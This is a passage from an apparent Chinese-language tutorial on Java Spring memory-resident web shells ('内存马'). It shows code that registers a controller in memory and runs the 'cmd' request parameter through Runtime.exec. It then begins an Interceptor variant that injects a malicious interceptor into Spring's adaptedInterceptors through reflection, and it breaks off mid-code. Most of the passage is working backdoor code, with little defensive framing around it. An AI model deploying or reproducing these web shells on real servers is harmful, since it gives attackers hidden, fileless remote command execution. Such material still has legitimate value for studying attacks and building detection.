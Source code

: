 ```java
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        r.registerMapping(info, new Controller_Shell(), method);

    }

    public class Controller_Shell{

        public Controller_Shell(){}

        public void shell() throws IOException {

            //获取request
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
    }

}

```

## Interceptor类内存马
可以仿照Filter型内存马的实现思路



获取当前运行环境的上下文

实现恶意Interceptor

注入恶意Interceptor

```java

......   
@Controller
public class Inject_Shell_Interceptor_Controller {

    @ResponseBody
    @RequestMapping("/inject")
    public void Inject() throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {

        //获取上下文环境
        WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());

        //获取adaptedInterceptors属性值
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean(RequestMappingHandlerMapping.class);
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);


        //将恶意Interceptor添加入adaptedInterceptors
        Shell_Interceptor shell_interceptor = new Shell_Interceptor();
        adaptedInterceptors.add(shell_interceptor);
```